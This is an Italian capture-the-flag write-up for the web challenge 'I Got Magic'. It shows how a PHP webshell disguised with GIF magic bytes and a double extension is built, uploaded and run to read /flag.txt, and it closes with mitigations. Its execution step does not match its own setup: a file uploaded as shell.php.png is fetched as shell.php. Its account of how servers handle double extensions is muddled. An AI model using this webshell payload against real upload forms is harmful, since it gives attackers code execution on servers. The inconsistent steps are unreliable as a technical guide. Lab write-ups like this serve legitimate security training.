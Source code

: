 ## 🧙‍♂️ Challenge: I Got Magic

**Categoria:** Web
**URL:** [http://got-magic.challs.olicyber.it](http://got-magic.challs.olicyber.it)
**Descrizione:**

> Questa pagina web è così noiosa, posso solo caricare le foto dei miei gattini preferiti. Riesci a fare qualcosa di più interessante?

**Flag:** si trova in `/flag.txt`

---

## 🔍 Analisi iniziale

Accedendo al sito, troviamo un **form di upload** che accetta solo **immagini**. Tuttavia, la descrizione lascia intendere che possiamo “fare qualcosa di più interessante”.

---

## 💡 Obiettivo

Caricare un **file PHP camuffato da immagine**, in modo che venga **accettato** e **eseguito** dal server, permettendoci di leggere la flag.

---

## 🔬 Soluzione tecnica

### 🔹 1. Creazione del file malevolo

Per bypassare i controlli, abbiamo creato un file che:

* Inizia con i **magic bytes validi di una GIF** (`GIF89a`)
* Contiene **codice PHP** da eseguire
* Ha un’**estensione `.png`** per ingannare il filtro

Comando usato:

```bash
echo -e "GIF89a<?php echo system('cat /flag.txt'); ?>" > shell.php
mv shell.php shell.php.png   (o anche tramite BurpSuite)
```

> 📝 Il file si presenta come immagine, ma in realtà è un file PHP.

---

### 🔹 2. Upload del file

Abbiamo caricato `shell.php.png` tramite il form. Il server ha accettato il file.

Dopo l’upload, il file è stato salvato nella cartella:

```
http://got-magic.challs.olicyber.it/uploads/
```

Verificando con Burp Suite o il browser, abbiamo trovato il file caricato, ad esempio:

```
http://got-magic.challs.olicyber.it/uploads/shell.php.png
```

### 🔹 3. Esecuzione del codice

Abbiamo quindi provato ad accedere direttamente a:

```
http://got-magic.challs.olicyber.it/uploads/shell.php
```

Nonostante l’estensione fosse `.png`, alcuni server **vedono l’estensione “.php” prima del punto successivo**, quindi eseguono il file!

Il server ha interpretato il PHP e restituito la flag da `/flag.txt`.

---

## 🎯 Flag

flag{REDHACKTED}

---

## ✅ Conclusione

La challenge sfrutta una tecnica reale: **bypass dei controlli di upload tramite magic bytes e doppia estensione**.

Questa vulnerabilità si verifica quando:

* Il server si fida **solo dei magic bytes** o **dell’estensione**
* La cartella `uploads/` **permette l'esecuzione PHP**
* Il server esegue file tipo `*.php.png` come PHP

---

## 🔐 Possibili mitigazioni (per la vita reale)

* Disabilitare l’esecuzione PHP nella directory `uploads/`
* Validare **contenuto, estensione e MIME** server-side
* Rimuovere le estensioni `.php`, `.phtml`, ecc. dai nomi dei file
* Salvare i file con nomi random e senza estensione
